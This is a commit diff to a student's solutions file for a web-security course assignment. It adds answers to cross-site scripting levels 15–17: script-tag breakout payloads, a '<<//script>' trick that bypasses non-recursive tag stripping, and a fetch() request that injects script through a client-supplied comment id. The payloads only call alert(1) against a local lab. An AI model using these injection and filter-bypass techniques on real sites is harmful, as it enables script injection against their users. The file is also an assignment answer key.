

Before and after one commit to Sivnerof/CS253, a Markdown page: Assignment-1/SOLUTIONS.md, the part around one of its changes. Shown at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Added rest of solutions for assignment 1

````diff
--- a/Assignment-1/SOLUTIONS.md
+++ b/Assignment-1/SOLUTIONS.md
@@ -131,22 +131,86 @@ localhost:4140/search?q=test&lang=en onload=alert(1)
 
 # 15. The Early Bird Catches the Worm (3 points)
 
+Injecting into the script tag, we can close off the first script and then start our payload.
+
 ```
-TODO: Replace this with your attack input.
+</script><script>console.log(alert(1))</script>
 ```
 
 # 16. Tying Up Loose Ends (3 points)
 
+Non-recursive removal of ```</``` means we can embed ```</``` within ```</``` like so ```<<//```, making our final payload:
+
 ```
-TODO: Replace this with your attack input.
+<<//script><script>console.log(alert(1))<<//script>
 ```
 
 # 17. Take a Page Out of Their Book (6 points)
 
+If you look at the source code provided:
+
+```javascript
+router.get('/', async (req, res) => {
+  const comments = await getCommentsFromDatabase()
+  res.render('caloogle-guestbook-page', { comments })
+})
+
+router.post('/comment', async (req, res) => {
+  const comment = req.body
+
+  if (comment == null) throw new Error('comment cannot be empty')
+  if (comment.text == null) throw new Error('comment.text cannot be empty')
+
+  // if client specifies no id, then use the next id
+  if (comment.id == null) comment.id = await getNextAvailableIdFromDatabase()
+
+  await addCommentToDatabase(comment)
+
+  res.send({ error: null, comment })
+})
+```
+
+You will notice the following line sticks out as a potential attack vector:
+
+```javascript
+  // if client specifies no id, then use the next id
+  if (comment.id == null) comment.id = await getNextAvailableIdFromDatabase()
+```
+
+The code implies a user can _choose_ their own id, but when you go to leave a comment on the guestbook you'll notice that there is no option for choosing your comments id. So you'll have to use the following code and paste it into the console.
+
 Attack code:
 
 ```js
-// TODO: Replace this with your solution.
+const comment = {
+  text: "Awesome Page!!!",
+  id: "alert(1)"
+};
+
+fetch('/comment', {
+  method: 'POST',
+  headers: {
+    'Content-Type': 'application/json'
+  },
+  body: JSON.stringify(comment)
+})
+  .then(response => response.json())
+  .then(data => {
+    console.log(data);
+    window.location.reload();
+  })
+  .catch(error => {
+    console.error(error);
+  });
+```
+
+An easier and much faster way, would be to just intercept the POST request with a tool like BurpSuite and send the following POST body data:
+
+```javascript
+{
+  "text": "Awesome Page!!!",
+  "id": "alert(1)"
+}
 ```
 
 # 18. Congrats
````
Also changed, not shown: other parts of Assignment-1/SOLUTIONS.md (+11 -11 lines).
